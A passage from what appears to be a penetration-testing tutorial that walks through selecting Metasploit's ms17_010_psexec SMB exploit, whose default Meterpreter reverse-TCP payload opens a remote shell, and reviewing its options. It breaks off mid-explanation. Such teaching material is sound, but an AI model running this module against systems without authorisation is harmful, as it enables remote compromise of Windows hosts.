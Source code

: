 >Tip: Search can apply complex filters such as search cve:2009 type:exploit. See all the filters with help search

We found one exploit for this service. We can use it by copying the full name of it and using `USE` to use it:

	use exploit/windows/smb/ms17_010_psexec

```text
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Before we can run the exploit, we need to configure its options. To view the options available to configure, we can use the `show options` command:

	msf6 > show options

```text
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

...SNIP...
```

Any option with `Required` set to `yes` needs to be set for the exploit to work. In this case, we only have to options to set: `RHOSTS`, which means the IP of our target (this can be one IP, multiple IPs, or a file containing a list of IPs). We can set them with the `set` command:
